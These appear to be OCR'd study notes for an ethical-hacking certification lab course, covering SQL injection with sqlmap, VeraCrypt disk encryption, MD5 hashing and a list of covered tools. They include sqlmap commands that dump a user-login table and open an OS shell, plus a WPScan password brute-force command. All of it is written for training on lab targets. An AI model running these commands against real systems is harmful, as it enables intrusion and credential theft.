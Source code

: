 

|• |Get a list of databases |
| - | - |
|• |Select a database to extract its tables |
|• |**sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --**|
||**cookie="value" -D moviescope –tables** |
- **-D: Specify the DBMS database to enumerate** 
- **--tables: Enumerate DBMS database tables** 



|• |Get a list of tables |
| - | - |
|• |Select a column |
|• |**sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --**|
||**cookie="value" -D moviescope –T User\_Login --dump** |
|• |Get table data of this column |
|• |**sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --**|
||**cookie="value" --os-shell** |
|• |Get the OS Shell |
|• |TASKLIST |
**Module 20: Cryptography** 

**Lab1-Task2: Calculate MD5 Hashes using MD5 Calculator** 

- Nothing special 

**Lab4-Task1: Perform Disk Encryption using VeraCrypt** 

- Click VeraCrypt 
- Create Volumn 
- Create an encrypted file container 
- Specify a path and file name 
- Set password 
- Select NAT 
- Move the mouse randomly for some seconds, and click Format 
- Exit 
- Select a drive, select file, open, mount 
- Input password 
- Dismount 
- Exit 

**Module Appendix: Covered Tools** 

- **Nmap** 
- Multiple Labs 
- **Hydra** 
- Module 13: Lab2-Task1 
- **Sqlmap** 
- Module 15: Lab1-Task2 
- **WPScan** 
- Module 14: Lab2-Task5 
- wpscan –-url http://10.10.10.10 -t 50 -U admin -P rockyou.txt 
- **Nikto** 
- https://zhuanlan.zhihu.com/p/124246499 
- **John** 
- Module 06: Lab1-Task1 